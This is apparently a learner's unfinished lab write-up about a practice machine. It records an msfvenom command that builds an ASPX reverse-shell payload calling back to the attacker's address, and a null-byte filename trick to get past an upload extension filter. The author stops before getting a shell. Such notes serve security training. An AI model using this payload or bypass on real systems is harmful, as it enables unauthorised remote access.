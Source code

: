 Missed out on a 

/transfer.aspx directory which I found out after reading the writeup where I also took some hints


Here we can uplaod files and veiw it on below path

http://10.10.10.93/Uploadedfiles/merlin.jpg


Created a reverse shell payload for above scenarioa using

```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=443 -f aspx -o rev_aspx_443.aspx 

```


I while uplaoding I captured the request with burp and made some changes to filename to bypass restriction

[[bypass file extension upload restriction]]

changes made to filename parameter is below

filename="rev_aspx_443.aspx%00.jpg"



and the file was uploaded successfully

so i got stuck here and saw the write up and got more confused so I stopped here and moved on to next machine

